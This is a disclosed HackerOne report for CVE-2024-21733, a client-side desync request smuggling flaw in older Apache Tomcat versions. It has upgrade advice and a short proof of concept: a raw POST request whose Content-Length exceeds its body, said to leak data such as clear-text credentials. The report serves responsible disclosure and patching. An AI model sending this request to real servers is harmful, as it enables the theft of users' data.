 # CVE-2024-21733 Apache Tomcat HTTP Request Smuggling (Client- Side Desync) (CWE: 444)

## Report Details
- **Report ID**: 2327341
- **URL**: https://hackerone.com/reports/2327341
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-01-19T18:09:45.664Z
- **Disclosed**: 2024-01-29T20:47:28.820Z

## Reporter
- **Username**: xer0dayz
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
Apache Tomcat from 8.5.7 through 8.5.63, from 9.0.0-M11 through 9.0.43 are vulnerable to client-side de-sync attacks. 

Client-side de-sync (CSD) vulnerabilities occur when a web server fails to correctly process the Content-Length of POST requests. By exploiting this behavior, an attacker can force a victim's browser to de-synchronize its connection with the website, causing sensitive data to be smuggled from the server and/or client connections.

Users are recommended to upgrade to version 8.5.64 onwards or 9.0.44 onwards, which contain a fix for the issue.

PoC:
~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
Host: hostname
Sec-Ch-Ua: "Chromium";v="119", "Not?A_Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
Content-Length: 6
Content-Type: application/x-www-form-urlencoded

X
~~~~~~~~~~~~~~~~~~

In some cases, this can leak sensitive data such as clear-text credentials (see attached screenshot).

Credit: 
This vulnerability was reported responsibly to the Tomcat security team by xer0dayz from Sn1perSecurity LLC.

History:
2024-01-19 Original advisory

References:
[3] https://tomcat.apache.org/security-9.html
[4] https://tomcat.apache.org/security-8.html

## Impact

An attacker can force a victim's browser to de-synchronize its connection with the website, causing sensitive data to be smuggled from the server and/or client connections.

## Attachments
- http-desync2b.png
